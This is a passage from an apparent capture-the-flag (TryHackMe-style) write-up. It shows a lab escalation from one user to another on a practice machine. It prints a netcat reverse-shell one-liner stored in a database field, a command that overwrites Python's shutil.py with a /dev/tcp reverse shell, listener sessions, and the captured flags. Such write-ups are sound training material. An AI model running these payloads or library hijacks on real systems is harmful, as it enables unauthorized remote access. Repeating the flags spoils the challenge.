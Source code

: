```bash
| NoBody  | $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.162.183 1337 >/tmp/f) |
+---------+-----------------------------------------------------------+
5 rows in set (0.00 sec)

```

We setup a listener with [[Netcat]] and try to execute getDreams.py again :

```bash
┌──(hax㉿HaxonKali)-[~]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.83.170] 44354
$ whoami
death
$ ls
death_flag.txt
getDreams.py
$ cat death_flag.txt
THM{1M_TH3R3_4_TH3M}
```

We have a [[Reverse Shell]] as death.

## Death to Morpheus

Now we have to modify the `shutil` lib of [[Python]] to get a Morpheus [[Reverse Shell]] :

`echo "import os;os.system(\"bash -c 'bash -i >& /dev/tcp/10.8.162.183/4444 0>&1'\")" > /usr/lib/python3.8/shutil.py`

Wait morpheus to launch restore.py & got the [[Shell]] :

```bash
┌──(hax㉿HaxonKali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.83.170] 47820
bash: cannot set terminal process group (1546): Inappropriate ioctl for device
bash: no job control in this shell
morpheus@ip-10-10-83-170:~$ cat morpheus_flag.txt
cat morpheus_flag.txt
THM{DR34MS_5H4P3_TH3_W0RLD}
```

Pwned .